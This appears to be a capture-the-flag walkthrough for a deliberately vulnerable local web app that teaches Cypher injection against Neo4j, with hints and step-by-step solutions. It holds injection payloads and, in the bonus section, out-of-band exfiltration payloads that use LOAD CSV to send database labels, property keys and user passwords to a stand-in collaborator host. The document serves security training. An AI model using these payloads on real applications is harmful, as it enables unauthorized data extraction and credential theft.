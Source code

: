 ## Neo4j 

In part, this application tests your knowledge of Neo4j and Cypher Query Language. Below you will find hints and steps for full walkthroughs for each level and the BONUS flags. The Walkthrough steps focus on the use of BurpSuite Pro, but for Easy, Medium, and Hard levels, BurpSuite Community and Zap can be used as well. For the BONUS flags, you will need one of the following:

1. Burp Collaborator
2. Your own webserver where you can see your access logs
    * This could be a server you already own as long as you are able to view the access logs
    * This could be a server you spin up with docker just for this exercise as long as you can view the acces logs

### EASY

<details>
  <summary>Hints</summary>

  1. Can you modify the request before it gets sent to server?
  2. Can you modify the request so the application displays an error that includes the Cypher query syntax? 
  3. Can you modify the request to include the Cypher equivalent of sql injection's ```x' or 'x'='x```?
</details>

<details>
  <summary>Walkthrough</summary>

  1. Browse to the [Neo4j page](http://localhost:8084/app/?db=neo4j) of the app.
  2. Using Burp or ZAP, intercept your request after clicking "go" on the app's Neo4j page.
  3. Edit ```person=Tom+Hanks``` to ```person=xxxxx"``` in the request body.
  4. Forward the request.
  5. Back in your browser, observe the query in the error message.
  6. Send another request and intercept it.
  7. Edit the request: Change ```person=Tom+Hanks``` to ```person=Tom+Hanks" or person.name=~".*```.
  8. Forward the request.
  9. Back in your browser look for the FLAGs.
</details>

### MEDIUM 

<details>
  <summary>Hints</summary>

  1. Modify the request so the application displays an error with the Cypher query. 
  2. The payload here depends on understanding Cypher Query Language as well as understanding how application code might rely on variable names used in the ```return`` portion of the query. 
</details>

<details>
  <summary>Walkthrough</summary>

  There are multiple ways to get the flags at this level, one of which does not require Cypher Injection; below is one that does, and requires some knowledge of Neo4j and Cypher Query Language.

  1. Browse to the [Neo4j page](http://localhost:8084/app/?db=neo4j) of the app.
  2. Select anything in the second dropdown.
  3. Using Burp or ZAP, intercept your request after clicking "go" on the app's Neo4j page.
  4. Edit ```person=Tom+Hanks``` to ```person=Tom+Hanks"``` in the request body.
  5. Forward the request.
  6. Back in your browser, observe the query in the error message.
  7. Send another request and intercept it.
  8. Edit the request: Change ```person=Tom+Hanks``` to ```person=Tom+Hanks"})-[role]-(movie) return person,role,movie//```.
  9. Create a text file containing the list of names from the select dropdown.
  10. Use Burp intruder to replace ```Tom+Hanks``` with the names from the file. 
  11. Find results in intruder that contain the text FLAG.
</details>

### HARD

<details>
  <summary>Hints</summary>

  1. There is no Cypher Injection attack at the Hard level 
  2. Burp Intruder and info you have gathered in the Easy and Meidum levels will help you at this level. 
</details>

<details>
  <summary>Walkthrough</summary>

  1. Turn Intercept off in Burp.
  2. Browse to the [Neo4j page](http://localhost:8084/app/?db=neo4j) of the app.
  3. Select anything in the second dropdown and click go.
  4. In Burp, find this request and send it to intruder.
  5. In intruder, select the value for ```person``` and the value for ```role``` as your attack vectors.
  6. Select Cluster Bomb as your Attack Type.
  7. Use the list of "persons" you used in Medium as the payload for ```person```.
  8. Use a list you've gathered from the previous 2 steps as the payload for ```role```.
  9. Click ```start attack```.
  10. Search for ```FLAG`` in the results to find the 3 flags at this level.
</details>

### BONUS  

<details>
  <summary>Hints</summary>

  1. To get the BONUS flags, you will need either:
    * Your own webserver where you may monitor access logs 
    * [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client) 
  2. You will need to understand how to use [Neo4j's db.labels() and db.propertyKeys() procedures](https://Neo4j.com/docs/cypher-manual/current/clauses/call/) to map this database.
  3. You will need to understand how to use [Neo4j's LOAD CSV functionality](https://Neo4j.com/developer/guide-import-csv/) to cause Neo4j to make http requests.
  4. You will need to understand how to use the two together to [extract information from Neo4j](https://www.sidechannel.blog/en/the-cypher-injection-saga/).
  5. Focus on a ```person``` who had flags associated with their records already, like the ```Tom```s
</details>

<details>
  <summary>More Hints</summary>

You need [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client), which is sadly only available with Burpsuite Pro, or your own webserver where you are able to see HTTP access requests. You could add a basic webserver container to this set up and use that server's IP address and access logs in place of Burp Collaborator.

1. Set your challenge level to Medium
2. Get list of all labels in the database and look for something interesting

```
person=Christian+Bale"})+CALL+db.labels()+YIELD+label+LOAD+CSV+FROM+'https://your.burpcollaboratorurl.com/'%2blabel+AS+r+return+person//&role=ACTED_IN&search=go
```

3. Get list of all properties in the database and look for something interesting

```
person=Christian+Bale"})+CALL+db.propertyKeys()+YIELD+propertyKey+LOAD+CSV+FROM+'https://your.burpcollaboratorurl.com/'%2bpropertyKey+AS+r+return+person//&role=ACTED_IN&search=go
```

4. Try variations of the following payload, replacing LABEL with an actual label and PROPERTY with an actual property from steps 1 & 2. This will tell you what properties go with what labels - if results are returned, a property has been matched to a label. (We use the variable ```movie``` in these payloads because that's the variable the application code expects. Changing that would render no results and may cause errors instead of useful information)

```
person=Tom Cruise"})-[role]-(movie:LABEL)+WHERE+movie.PROPERTY+IS+NOT+null+return+person,role,movie//
```

For example, these should not return data because the User nodes do not have a property called ```notrealproperty``` or ```tagline```.

```
person=Tom Cruise"})-[role]-(movie:User)+WHERE+movie.notrealproperty+IS+NOT+null+return+person,role,movie//
person=Tom Cruise"})-[role]-(movie:User)+WHERE+movie.tagline+IS+NOT+null+return+person,role,movie//
```

And this should return data because the Movie nodes do have properties called ```tagline``` and ```released``` although they never show up in our web application

```
person=Tom Cruise"})-[role]-(movie:Movie)+WHERE+movie.tagline+IS+NOT+null+return+person,role,movie//
person=Tom Cruise"})-[role]-(movie:Movie)+WHERE+movie.released+IS+NOT+null+return+person,role,movie//
```

5. Once you've decided what LABEL and PROPERTY you are interested in, use the following payload, foreach person in the database, replacing LABEL with the label and PROPERTY with the property and watch your collaborator space or your server access logs for requests. 

```
person=Tom+Cruise"})-[role]->(movie:LABEL)+LOAD+CSV+from+'https://your.burpcollaboratorurl.com/'%2bperson.name%2b'/'%2bmovie.PROPERTY+AS+r+return+person,role,movie//&role=DIRECTED&search=go
```

For example, we should now know node ```User``` has a property ```title``` so this should send information to collaborator or your web server

```
person=Tom+Cruise"})-[role]->(movie:User)+LOAD+CSV+from+'https://your.burpcollaboratorurl.com/'%2bperson.name%2b'/'%2bmovie.title+AS+r+return+person,role,movie//&role=DIRECTED&search=go
```

6. Some of the flags may need to be further figured out.
</details>


<details>
  <summary>Exact steps to FLAGS</summary>

You need [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client), which is sadly only available with Burpsuite Pro, or your own webserver where you are able to see HTTP access requests. You could add a basic webserver container to this set up and use that server's IP address and access logs in place of Burp Collaborator.


1. Set your challenge level to Medium
2. Get a list of all labels in the database - you are looking for the ```User``` label.

```
person=Christian+Bale"+CALL+db.labels()+YIELD+label+LOAD+CSV+FROM+'https://your.burpcollaboratorurl.com/'%2bpropertyKey+AS+r+return+person//&search=go
```

3. Get list of all properties in the database - you are looking for the ```password``` label. 

```
person=Christian+Bale"+CALL+db.propertyKeys()+YIELD+propertyKey+LOAD+CSV+from+'https://your.burpcollaboratorurl.com/'%2bpropertyKey+AS+r+return+person//&search=go
```

4. Use the following payloads to get the BONUS flags.

```
person=Tom+Tykwer"})-[role]->(movie:User)+LOAD+CSV+from+'https://your.burpcollaboratorurl.com/'%2bperson.name%2b'/'%2bmovie.password+AS+r+return+person,role,movie//&role=DIRECTED&search=go

person=Tom+Cruise"})-[role]->(movie:User)+LOAD+CSV+from+'https://your.burpcollaboratorurl.com/'%2bperson.name%2b'/'%2bmovie.password+AS+r+return+person,role,movie//&role=DIRECTED&search=go

person=Tom+Skerritt"})-[role]->(movie:User)+LOAD+CSV+from+'https://your.burpcollaboratorurl.com/'%2bperson.name%2b'/'%2bmovie.password+AS+r+return+person,role,movie//&role=DIRECTED&search=go
```

5. The BONUS^MEDIUM password is base64 encoded 3x. 
6. The BONUS^HARD password is encoded using Ceasar Cipher then converted to asciihex then base64 encoded.
</details>
